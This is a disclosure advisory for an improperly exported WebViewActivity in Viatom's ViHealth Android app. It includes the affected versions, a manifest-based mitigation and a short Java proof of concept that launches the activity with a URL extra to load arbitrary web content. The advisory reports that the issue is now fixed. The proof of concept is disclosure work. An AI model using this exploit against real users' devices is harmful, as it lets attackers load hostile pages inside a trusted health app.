

Vendor of Product: Viatom Tech                                                                                                                                                                                                                                                                                                                                                                      
Vulnerability Type:   CWE-926: Improper Export of Android Application Components

Affected Product:  ViHealth Android App V. 2.74.58* & earlier

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

To exploit the vulnerability, the attacker needs to have a victim install a 3rd party Android app on their device

Discoverer: Edward Warren

The Android application exports a component for use by other applications but does not properly restrict which applications can launch the component or access the data it contains.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

["activity android:name="com.viatom.baselib.mvvm.web.WebViewActivity" android:exported="true" android:screenOrientation="portrait""]


An attacker could craft a 3rd party app using the following code to load the url of their choice within the context of the exported activity of your application to facilitate malicious actions:


![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/2dafcbb9-e528-4103-881e-173655970e37)


********************************************************************************************************************************
// Create an Intent to start the exported WebViewActivity of the target app
Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.windows93.net");

// Start the activity
startActivity(launch);
********************************************************************************************************************************



**This issue has been fixed today (6/19/23) with the app ViHealth (V. 2.74.62)-shortly after I reported it to the vendor on 6/10/23.
